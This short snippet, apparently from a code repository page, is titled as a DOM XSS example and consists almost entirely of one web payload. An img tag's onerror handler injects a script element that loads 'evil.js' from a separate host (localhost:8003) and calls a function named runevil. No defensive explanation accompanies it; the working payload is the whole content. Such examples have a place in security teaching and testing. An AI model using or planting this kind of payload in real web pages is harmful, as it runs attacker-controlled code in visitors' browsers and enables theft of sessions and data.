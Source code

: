 # DOM XSS Load and run external script example
```<img src=1 onerror="
var head= document.getElementsByTagName('head')[0];
var script= document.createElement('script');
script.onload=function(){runevil()};
script.src= 'http://localhost:8003/evil.js';
head.appendChild(script);">```